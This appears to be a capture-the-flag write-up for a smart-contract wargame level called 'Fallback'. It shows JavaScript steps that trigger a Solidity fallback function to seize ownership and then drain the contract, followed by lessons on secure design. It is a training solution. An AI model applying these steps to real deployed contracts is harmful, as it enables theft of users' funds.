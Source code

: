 # Level 1: Fallback

The Fallback challenge highlights the risks of unintended fallback functions. The goal is to become the contract's owner by exploiting the fallback function.


## Goal

- **Become the contract owner by sending Ether and manipulating the fallback function.**

## Solution

The `Fallback` contract contains a fallback function that transfers ownership under specific conditions:

```solidity
function() external payable {
    if (msg.value > 0 && contributions[msg.sender] > 0) {
        owner = msg.sender;
    }
}
```

## To exploit this:

1. **Contribute Ether**

```javascript
const target = contract.address;
const me = player; // this is your account

await contract.contribute({
  from: me,
  value: toWei("0.0001")
});
```

2. **Trigger the Fallback Function**  
Send Ether directly to the contract without calling any function:

```javascript
// Send ETH *outside* the ABI to hit the fallback
await sendTransaction({
  from: me,
  to: target,
  value: toWei("0.0001")
});
```

3. **Take Ownership**  
The fallback function executes, setting the `owner` to the player address:

```javascript
// now you are now owner
console.log("owner =", await contract.owner(), "player =", me);
```

4. **Drain the Contract**  
Call the `withdraw` function to transfer all funds:

```javascript
await contract.withdraw({ from: me });
```

---

## Lessons Learned with this challenge

- Fallback functions can introduce unintended behavior if they are not properly restricted.
- Always validate conditions before updating critical states like ownership.
- Avoid relying on implicit behavior in Solidity.

